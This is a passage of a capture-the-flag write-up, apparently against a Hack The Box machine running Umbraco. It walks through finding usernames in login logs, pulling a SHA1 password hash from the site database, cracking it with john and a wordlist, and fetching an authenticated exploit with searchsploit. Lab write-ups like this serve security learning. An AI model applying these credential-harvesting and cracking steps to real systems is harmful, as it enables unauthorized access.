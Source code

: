 This exploit requires us to be authenticated, so let's move on for now.


We also find the database version: `"Microsoft SQL Server Compact Data Provider 4.0"`

Additionally, in the `/App_Data/Logs/*`, we find these successful logins:

```bash
$ grep " Login attempt succeeded for" * | cut -d":" -f 6 | uniq
 Login attempt succeeded for username admin@htb.local from IP address 192.168.195.1
 Login attempt succeeded for username smith@htb.local from IP address 192.168.195.1
 Login attempt succeeded for username ssmith@htb.local from IP address 192.168.195.1
```

`admin`, `smith` and `ssmith` seem to be valid usernames on the box.


```bash
$ sdf +sdf2txt_ Umbraco.sdf
failed to redirect stdout: Permission deniedUmbraco.sdf warning, para. on 1: unknown phrase style 'G'
Umbraco.sdf warning, macro on 898: unknown macro ''
Umbraco.sdf warning, para. on 1568: unknown phrase style 'H'
Umbraco.sdf warning, para. on 1568: unknown phrase style 'G'
Umbraco.sdf warning, para. on 2619: unknown phrase style 'Q'
Umbraco.sdf warning, para. on 2889: unknown phrase style 'H'
VttyAdministratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d׃rfurfvrfrfXvadminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50BiIfhVgvrfhVgXvadminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

In this disgustingly formatted output, we can see a SHA1 hash: `adminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`. We know the username `admin`, so the rest of the string could be the hashed password (`b8be16afba8c314ad33d812f22a04991b90e2aaa`). Shouldn't be too difficult to crack.

```bash
$ echo "admin:b8be16afba8c314ad33d812f22a04991b90e2aaa" > creds_to_crack.txt
$ john --wordlist=~/tools/wordlists/rockyou.txt --format=raw-sha1 creds_to_crack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (admin)
1g 0:00:00:01 DONE (2020-04-13 05:51) 0.9900g/s 9726Kp/s 9726Kc/s 9726KC/s baconandcheese..bacon9092
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

Looks like the admin password is `baconandcheese`. Trying `admin@htb.local` and `baconandcheese` for username and password at the `Umbraco` login page from earlier works!

Let's revisit that authenticated exploit we found earlier.


```bash
$ searchsploit -m exploits/aspx/webapps/46153.py
$ mv 46153.py exploit-stage-1.py
```
